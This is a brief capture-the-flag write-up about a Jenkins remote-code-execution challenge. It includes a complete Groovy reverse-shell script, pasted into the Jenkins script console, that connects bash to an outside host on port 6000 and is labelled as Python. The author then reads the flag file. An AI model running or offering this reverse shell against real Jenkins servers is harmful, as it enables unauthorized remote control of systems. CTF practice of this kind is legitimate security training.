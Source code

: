 Sadly couldn't get more info on the chall, I wrote this solution so quick while playing the CTF

It was a jenkins RCE challenge, you had admin to Jenkins and from there you find oyour path for any exploit, I searched about jenkins exploits and found this, wrote it in Jenkins console somewhere in Jenkins pages and got my shell (I think it's this page http://jenkins.hackerspacejust.com:8080/script)

```py 

        String host="172.27.102.202";
        int port=6000;
        String cmd="bash";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Then I got shell, I simply ran `ls` and found `flag.txt` cat it and there you go
   
   
